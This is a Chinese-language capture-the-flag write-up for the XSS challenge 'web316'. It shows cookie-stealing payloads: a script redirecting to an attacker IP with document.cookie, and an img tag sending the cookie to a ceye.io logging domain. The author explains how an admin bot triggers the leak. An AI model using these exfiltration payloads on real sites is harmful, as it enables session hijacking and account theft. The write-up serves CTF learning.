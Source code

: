 > <script>window.location.href='http://[ip]/xss.php?cookie='+document.cookie</script>

### web316

去**控制台**输入以下指令：alert(document.cookie)

得到的信息为：

```
PHPSESSID=ptnd4qql435ille8hetr5bkij4; flag=you%20are%20not%20admin%20no%20flag
```

在ceye网站上注册临时域名，用它来反射出cookie。

payload：

```
<script> var img=document.createElement("img"); img.src="http://hi8y3b.ceye.io/"+document.cookie; </script>
```

在后台里面得到flag

![](.\XSS\图片\web316.png)

经历了30多分钟，不容易啊。

对payload的解释：

```
var img=document.createElement("img");  //这个是生成一个img对象
img.src="http://hi8y3b.ceye.io/"+document.cookie; 
/*是加载一张图片加上当前的cookie这里我们填写的是接收平台的地址，所以带上document.cookie去加载地址然后平台会有记录cookie的值，ctf平台会有个虚拟机器人，充当admin身份，每隔一段时间点开网站它一点开就会加载payload，发送它自身的cookie在那个框内输入那个标签输进去，网站一加载就执行了我们输入的xss代码然后他自己会发送cookie*/
```



